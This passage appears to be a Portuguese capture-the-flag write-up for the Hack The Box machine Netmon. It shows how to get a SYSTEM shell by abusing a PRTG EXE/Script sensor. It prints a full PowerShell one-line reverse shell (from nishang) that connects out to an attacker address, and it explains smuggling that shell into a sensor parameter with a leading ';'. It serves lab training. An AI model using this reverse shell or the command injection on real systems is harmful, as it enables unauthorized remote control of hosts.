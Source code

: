 # Primeiro modo -> Através dos *Sensores*

O PRTG é uma ferramenta de monitoramento muito boa, ela suporta controlarmos diversos sensores, como por exemplo, ping, HTTP, SMTP... a partir dai já podemos enxergar o que podemos realizar no servidor.

#### Vamos em `Sensors` - Add Sensors - Selecionamos o IP 10.10.10.152 - Continue

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_web5.png)

#### Adicionaremos um sensor do tipo *EXE/Script*

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_web6.png)

_______

Utilizaremos o `nishang` para conseguir um shell
Ferramenta excelente, todo mundo deve ter ela em seu arsenal

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_nishang0.png)

O que utilizaremos é o *PowerShellTcpOneLine*, ou seja Shell Reverso em uma linha

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_nishang.png)

```
$sm=(New-Object Net.Sockets.TCPClient('10.10.16.119',55555)).GetStream();[byte[]]$bt=0..65535|%{0};while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0){;$d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i);$st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1));$sm.Write($st,0,$st.Length)}
```

________

#### No caso iremos adicionar um `;` antes do comando.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_sensor.png)

#### Ao adicionarmos selecionamos a Task e executamos (com o listener aberto)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_sensor1.png)

#### Recebemos o shell de Authority na máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-netmon/Netmon_shell.png)

# Segundo modo -> Através dos *Tickets*

Setup - Notifications
